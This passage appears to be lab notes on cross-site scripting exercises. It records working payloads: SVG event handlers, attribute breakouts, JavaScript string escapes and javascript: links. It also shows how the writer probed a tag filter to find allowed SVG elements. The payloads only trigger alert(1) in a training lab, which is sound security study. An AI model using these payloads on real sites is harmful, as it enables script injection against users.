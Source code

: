 ```

```
onbegin
```

The only payload using the above event handler was: `<svg><animate onbegin=alert(1) attributeName=x dur=1s>` but it has `animate` which is disallowed.

I then try to draw a basic circle using `<svg>` which works:

```html
<svg width="100" height="100">
  <circle cx="50" cy="50" r="40" stroke="green" stroke-width="4" fill="yellow" />
</svg>
```

But tags like `<script>` are diassallowed. So I pulled all tags that are usually used in `<svg>` and ran the same script to see which ones were allowed.

```
circle
discard
ellipse
image
line
rect
svg
text
title
```

- Then I looked into [this](https://owasp.org/www-pdf-archive/Mario_Heiderich_OWASP_Sweden_The_image_that_called_me.pdf) presentation.
- Also, this doesn't show "Tag not allowed": `<svg><.*></svg>`

#### Reflected XSS into attribute with angle brackets HTML-encoded

```html
" autofocus onfocus="alert(1)
```

#### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
`/?search=\'%0aalert(1);//`

#### Stored XSS into anchor href attribute with double quotes HTML-encoded
In website textbox put: `javascript:alert(1)`

#### Reflected XSS in canonical link tag `TBD`

```<link rel="canonical" accesskey="X" onclick="alert(1)" /> (Press ALT+SHIFT+X on Windows) (CTRL+ALT+X on OS X)```

#### Reflected XSS into a JavaScript string with single quote and backslash escaped `TBD`

```
var searchTerms = 'asdf';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
encodeURIComponent() escapes all characters except: `A-Z a-z 0-9 - _ . ! ~ * ' ( )`
